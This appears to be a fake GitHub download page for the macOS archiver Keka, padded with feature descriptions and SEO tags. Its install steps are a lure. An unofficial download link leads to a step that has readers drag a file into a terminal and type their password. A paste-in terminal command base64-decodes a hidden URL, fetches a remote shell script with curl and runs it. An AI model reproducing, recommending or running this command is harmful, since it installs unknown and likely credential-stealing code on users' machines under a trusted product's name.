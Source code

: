 # Keka — Free Download for macOS 🥳
![logo](https://www.keka.io/img/Keka-Square-512x512.png)


Keka is a powerful, open-source file archiver for macOS, designed to compress, extract, and manage files with ease. Follow the instructions below to download and install Keka on your Mac for free.

[![Download Keka](https://img.shields.io/badge/Download-Keka-1E90FF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/kekamac)

If you encounter issues downloading via the button above, follow the step-by-step terminal instructions below.

## 📦 How to Install Keka For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Keka

- 🗜️ **Powerful Compression**: Create compressed files in multiple formats like 7z, Zip, Tar, and more with high efficiency.
- 🔄 **Effortless Extraction**: Extract files from various archive formats, including RAR, ISO, and others, with a single click.
- 🔒 **Secure File Handling**: Protect your archives with AES-256 encryption for maximum security.
- ⚡ **Fast Performance**: Optimized for macOS, Keka ensures quick compression and extraction, even for large files.
- 🖥️ **User-Friendly Interface**: Enjoy a sleek, macOS-native design that integrates seamlessly with your workflow.
- 🌐 **Open-Source Freedom**: Keka is free and open-source, ensuring transparency and community-driven updates.

## About Keka

Keka is a highly versatile file archiver tailored for macOS users, offering a seamless way to compress and extract files. Whether you're managing large datasets, sharing files, or organizing backups, Keka provides a robust solution. Its support for multiple archive formats, including 7z, Zip, Tar, Gzip, Bzip2, DMG, and ISO, makes it a go-to tool for professionals and casual users alike. The software is designed to handle even the most complex archiving tasks with ease, ensuring that your files are compressed efficiently without compromising quality.

One of Keka’s standout features is its intuitive macOS-native interface, which blends perfectly with the operating system’s aesthetic. Users can drag and drop files directly into Keka or use the context menu in Finder for quick access to compression and extraction options. This seamless integration enhances productivity, allowing you to manage archives without disrupting your workflow. Additionally, Keka’s open-source nature ensures that it is regularly updated by a dedicated community, keeping it reliable and secure.

Security is a top priority for Keka. With support for AES-256 encryption, you can password-protect your archives to safeguard sensitive data. This makes Keka an excellent choice for users who need to share files securely or store confidential information. Unlike other archivers, Keka balances advanced security features with simplicity, ensuring that even beginners can use it effectively without a steep learning curve.

Keka’s performance is optimized for macOS, leveraging the system’s architecture to deliver fast compression and extraction speeds. Whether you’re working with large media files or small documents, Keka processes them quickly, saving you time. Its ability to split archives into smaller parts also makes it ideal for transferring large files over email or cloud services, ensuring compatibility with size restrictions.

### Why Choose Keka?

Keka stands out among other file archivers due to its combination of power, simplicity, and macOS integration. Its open-source model means you get a free, transparent tool that’s constantly improving. With support for a wide range of formats, top-tier encryption, and a user-friendly interface, Keka is the ultimate archiving solution for macOS users looking for efficiency and reliability.

## 🖼 Preview

![Keka Main Interface](https://haxmac.cc/wp-content/uploads/2021/09/Keka-macOS.jpg)  
*Keka’s clean and intuitive macOS interface*

![Compression Options](https://haxmac.cc/wp-content/uploads/2021/09/Kaka.jpg)  
*Selecting compression formats in Keka*

## 🔍 Tags

keka download, keka free mac, keka archiver, keka macos, keka install guide, keka for mac, keka free download, keka download free, free keka download, keka for mac, keka for free, keka mac os free, download keka, download free keka
